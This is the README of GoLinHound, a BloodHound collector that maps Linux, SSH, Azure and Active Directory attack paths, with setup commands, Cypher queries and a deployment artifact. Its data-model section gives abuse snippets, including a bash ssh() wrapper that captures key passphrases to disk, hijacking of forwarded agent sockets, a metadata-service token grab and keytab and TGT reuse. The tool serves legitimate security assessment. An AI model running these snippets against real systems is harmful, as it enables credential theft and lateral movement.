





# GoLinHound



A [BloodHound](https://github.com/SpecterOps/BloodHound) collector written in Go that discovers Linux and SSH attack paths.
Outputs [OpenGraph](https://bloodhound.specterops.io/opengraph/schema) JSON and integrates with existing [SharpHound](https://github.com/SpecterOps/SharpHound) and [AzureHound](https://github.com/SpecterOps/AzureHound) data.

## Table of Contents

- [Getting Started](#getting-started)
- [Data Model](#data-model)
  - [SSH](#ssh)
  - [Linux](#linux)
  - [Azure / Entra](#azure--entra)
  - [Active Directory](#active-directory)
- [Cypher Queries](#cypher-queries)
  - [Local Privilege Escalation](#local-privilege-escalation)
  - [Pivot from Dev to Prod](#pivot-from-dev-to-prod)
  - [Azure Tenant Breakout](#azure-tenant-breakout)
  - [Azure Subscription Breakout](#azure-subscription-breakout)
  - [Azure VMs with Privileged Service Principals](#azure-vms-with-privileged-service-principals)
  - [Active Directory Domain Breakout](#active-directory-domain-breakout)
  - [Active Directory Principal Breakout](#active-directory-principal-breakout)
  - [Private Keys on More Than One Computer](#private-keys-on-more-than-one-computer)
  - [Unprotected Private Keys](#unprotected-private-keys)
  - [Private Keys with Weak Encryption](#private-keys-with-weak-encryption)
  - [Agent Forwarding](#agent-forwarding)
- [Large-Scale Deployment](#large-scale-deployment)
- [Author & License](#author--license)
- [Acknowledgements](#acknowledgements)

## Getting Started

```bash
# clone repository
git clone https://github.com/rantasec/golinhound
cd golinhound

# add custom node icons to BloodHound
BASEURL="http://localhost:8080"
TOKEN="<YOUR_TOKEN>"
curl -X "POST" \
  "${BASEURL}/api/v2/custom-nodes" \
  -H "accept: application/json" \
  -H "Prefer: wait=30" \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  -d @res/custom-nodes.json

# build golinhound yourself
make build

# alternatively, download latest release
wget -P "bin/" "https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-amd64"
wget -P "bin/" "https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-arm64"

# execute golinhound
sudo ./bin/golinhound-linux-amd64 collect > output.json

# optional: merge multiple output files
cat *.json | ./bin/golinhound-linux-amd64 merge > merged.json
```

## Data Model

This section describes the edges collected by GoLinHound and provides examples how they can be abused.

### SSH



#### HasPrivateKey

Collected by parsing all private keys in `$HOME/.ssh/` directories. This edge indicates that a user has access to a specific SSH keypair.

If the corresponding private key is password-protected, the password can be captured by adding an SSH command alias to the user's profile:
```bash
ssh() {
  for ((i=1; i<=$#; i++)); do
    if [[ ${!i} == "-i" ]]; then
      next=$((i+1))
      if ssh-keygen -y -P "" -f "${!next}" >/dev/null 2>&1; then
        break
      fi
      if [[ -f "${!next}.password" ]]; then
        break
      fi
      echo -n "Enter passphrase for key '${!next}': "
      read -s passphrase
      echo ""
      echo "$passphrase" > ${!next}.password
      break
    fi
  done
  command ssh "$@"
}
```


#### CanSSH
Collected by parsing `authorized_keys` files. This edge indicates that a SSHKeyPair can be used to authenticate via SSH to an SSHComputer as a specific SSHUser.

Connect using the private key:
```bash
ssh -i <priv_key> user@host
```

#### ForwardsKey
This edge indicates that a keypair was forwarded to another SSHComputer via [SSH agent forwarding](https://medium.com/@alejlopbu/hijacking-ssh-sessions-to-move-laterally-3d6a708b683b).

Use the forwarded authentication socket to authenticate to other hosts:

```bash
export SSH_AUTH_SOCK="/tmp/ssh-IbF2XDIsRI/agent.9869"
ssh user@host
```

### Linux


#### IsRoot
This edge indicates that an SSHUser is the root user of an SSHComputer.

No additional exploitation needed - root is already the most privileged user on the system.

#### CanSudo

Collected by parsing sudoers configuration files. This edge indicates that a user has privileges to execute commands as root via sudo.

Escalate to root privileges:
```bash
sudo -u#0 bash
```

#### CanImpersonate

Once a user has escalated to root, they can impersonate any other user on the system.

Execute bash as another user:

```bash
sudo -u <username> bash
```


### Azure / Entra



#### SameMachine
This edge indicates that an SSHComputer is an AZVM. This edge is bidirectional.

A token for the machine identity can be obtained via:
```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s
```

A privileged Azure user can execute code on the VM via:
```bash
az vm run-command invoke \
  --resource-group myResourceGroup \
  --name myLinuxVM \
  --command-id RunShellScript \
  --scripts "whoami"

```


### Active Directory



This edge indicates that credentials for an Active Directory user are stored in a keytab file on an SSHComputer.

Extract Kerberos encryption keys from the keytab:
```bash
klist -eKkt /home/alice/svc_custom.keytab
```

#### HasTGT
This edge indicates that cached Ticket Granting Tickets (TGTs) for an Active Directory user exist on an SSHComputer, typically in `/tmp/krb5cc_*` files.

Export and use the credential cache:
``` bash
export KRB5CCNAME=/tmp/krb5cc_<uid>
klist
```


## Cypher Queries

This section demonstrates Cypher queries that uncover interesting attack paths. Sample OpenGraph JSON files for testing these queries can be found in the [`res/examples/`](res/examples/) directory.

### Local Privilege Escalation

This query identifies non-privileged users that can obtain root privileges.

```sql
// identify administrative users
MATCH pEnd=(admin:SSHUser)-[:CanSudo|IsRoot]->(c:SSHComputer)
// identify unprivileged users
MATCH (c)-[:CanImpersonate]->(user:SSHUser)
WHERE NOT (user)-[:CanSudo|IsRoot]->(c)
// find path from unprivileged user to admin
MATCH pStart=allShortestPaths((user)-[*1..]->(admin))
// start segment should not include target computer
WHERE none(n in nodes(pStart) WHERE n.objectid=c.objectid)
RETURN pStart, pEnd
```


### Pivot from Dev to Prod

This query identifies attack paths from test/dev to prod.

```sql
// identify all computers that contain non-prod strings
MATCH (testc:SSHComputer)
WHERE (
    testc.name CONTAINS "TEST" OR
    testc.name CONTAINS "TST" OR
    testc.name CONTAINS "DEV"
)
// identify computers with prod string and all local users
MATCH (prodc:SSHComputer)-[:CanImpersonate]->(produ:SSHUser)
WHERE (
    prodc.name CONTAINS "PROD" OR
    prodc.name contains "PRD"
)
// check if there is path from test to prod
MATCH p=allShortestPaths((testc)-[*..]->(produ))
// ignore paths that go through the prod host
WHERE none(n in nodes(p) WHERE n.objectid=prodc.objectid)
// show privileges to prod host
OPTIONAL MATCH p2=(produ)-[:CanSudo|IsRoot]->(prodc)
RETURN p,p2
```


### Azure Tenant Breakout

This query shows non-Azure attack paths from a vm in one Azure tenant to a vm in another tenant.

```sql
MATCH (vm1:AZVM)-[:SameMachine]->(:SSHComputer)
MATCH (:SSHComputer)-[:SameMachine]->(vm2:AZVM)
WHERE vm1.tenantid <> vm2.tenantid
MATCH p=allShortestPaths((vm1)-[*..]->(vm2))
WHERE none(r in relationships(p) WHERE type(r) STARTS WITH "AZ")
RETURN p
```


### Azure Subscription Breakout

This query shows non-Azure attack paths from a vm in one Azure subscription to a vm in another subscription.

```sql
MATCH (vm1:AZVM)-[:SameMachine]->(:SSHComputer)
MATCH (:SSHComputer)-[:SameMachine]->(vm2:AZVM)
WITH 
    vm1,
    vm2,
    substring(vm1.objectid,15,36) AS subscriptionId1,
    substring(vm2.objectid,15,36) AS subscriptionId2
WHERE subscriptionId1 <> subscriptionId2
MATCH p=allShortestPaths((vm1)-[*..]->(vm2))
WHERE none(r in relationships(p) WHERE type(r) STARTS WITH "AZ")
RETURN p
```

### Azure VMs with Privileged Service Principals

This query shows non-Azure attack paths to Azure VMs that have privileges assigned.

```sql
MATCH p=(:SSHComputer)-[:SameMachine]->(vm:AZVM)-->(:AZServicePrincipal)-->()
RETURN p
```


### Active Directory Domain Breakout

This query shows non-AD attack paths from a computer in one domain to a computer in another domain.

```sql
MATCH p1=(c1:SSHComputer)-[:HasKeytab|:HasTGT]->(ad1)
MATCH p2=(c2:SSHComputer)-[:HasKeytab|:HasTGT]->(ad2)
WHERE c1 <> c2 AND ad1.domain <> ad2.domain
MATCH p=allShortestPaths((c1)-[*..]->(c2))
RETURN p1, p, p2
```


### Active Directory Principal Breakout

This query shows non-AD attack paths from a computer with access to one AD principal to a computer with another AD principal.

```sql
MATCH p1=(c1:SSHComputer)-[:HasKeytab|:HasTGT]->(ad1)
MATCH p2=(c2:SSHComputer)-[:HasKeytab|:HasTGT]->(ad2)
WHERE c1 <> c2 AND ad1 <> ad2
MATCH p=allShortestPaths((c1)-[*..]->(c2))
RETURN p1, p, p2
```


### Private Keys on More Than One Computer

This query identifies private keys that can be found on multiple hosts.

```sql
MATCH (c:SSHComputer)-[:CanImpersonate]->(u:SSHUser)-[:HasPrivateKey]->(k:SSHKeyPair)
WITH k, collect(DISTINCT c) AS computers
WHERE size(computers) > 1
UNWIND computers AS c
MATCH p=(c)-[:CanImpersonate]->()-[:HasPrivateKey]->(k)
RETURN p
```


### Unprotected Private Keys

This query shows private keys that are unencrypted and not protected by FIDO2.

```sql
MATCH p=(:SSHUser)-[r:HasPrivateKey]->(k:SSHKeyPair)
WHERE k.FIDO2 = false AND r.Encrypted = false
RETURN p
```


### Private Keys with Weak Encryption

This query shows non-FIDO2 private keys that are encrypted with something other than aes.

```sql
MATCH p=(u:SSHUser)-[r:HasPrivateKey]->(k:SSHKeyPair)
WHERE k.FIDO2 = false
  AND r.Encrypted = true
  AND r.Cipher <> "none"
  AND NOT r.Cipher STARTS WITH "aes256-"
  AND NOT r.Cipher STARTS WITH "aes128-"
RETURN p
```


### Agent Forwarding

This query shows which private keys are forwarded via SSH agent forwarding.

```sql
MATCH p=(:SSHUser)-[:ForwardsKey]->(k:SSHKeyPair)
RETURN p
```


### Hosts that allow root logins

This query returns hosts that allow the root user to login.

```sql
MATCH p=(:SSHKeyPair)-[:CanSSH]->(:SSHUser)-[:IsRoot]->(:SSHComputer)
RETURN p
```


## Large-Scale Deployment

GoLinHound can be deployed using any tool with remote code execution capabilities across your Linux infrastructure. For [Velociraptor](https://github.com/Velocidex/velociraptor) users, a pre-built artifact is provided below for streamlined deployment:

```vql
name: Custom.Linux.Linhound.GoTool
description: |
   Velociraptor Client Artifact to push GoLinhound to a client and execute. The binary will be downloaded to a temporary folder and will be deleted after execution. The artifact will return the json which can be pushed to Bloodhound.

author: Hendrik Schmidt, @hendrkss

precondition: SELECT OS, PlatformFamily, Architecture FROM info() WHERE OS = 'linux' AND NOT Architecture =~ 'arm'
type: CLIENT

implied_permissions:
  - EXECVE
  - FILESYSTEM_WRITE
  - FILESYSTEM_READ

tools:
  - name: goLinhound
    url: https://github.com/RantaSec/golinhound/releases/latest/download/golinhound-linux-amd64

sources:
    - name: GetToolingAndExecute
      query: |
              LET getTool = SELECT OSPath as MyPath FROM Artifact.Generic.Utils.FetchBinary(
                      ToolName= "goLinhound", 
                      ToolInfo="GoLinhound Executable",
                      IsExecutable=TRUE,
                      TemporaryOnly=TRUE
                    )
              
              LET runTool = SELECT MyPath,* FROM execve(argv=[MyPath,"collect"],length=100000000)
              
              SELECT * FROM foreach(
                            row=getTool,
                            query={SELECT * FROM chain(a=runTool)
                            }
                    )
```


## Author & License

Copyright © 2026 Lukas Klein. Licensed under GPL-3.0 - see [LICENSE](LICENSE).

## Acknowledgements

I would like to thank the following people for their support on this project:

- **Hendrik Schmidt** ([@hendrkss](https://github.com/hendrkss)) for valuable discussions and working out the Velociraptor deployment strategy

- **Hilko Bengen** ([@hillu](https://github.com/hillu)) for general guidance and support

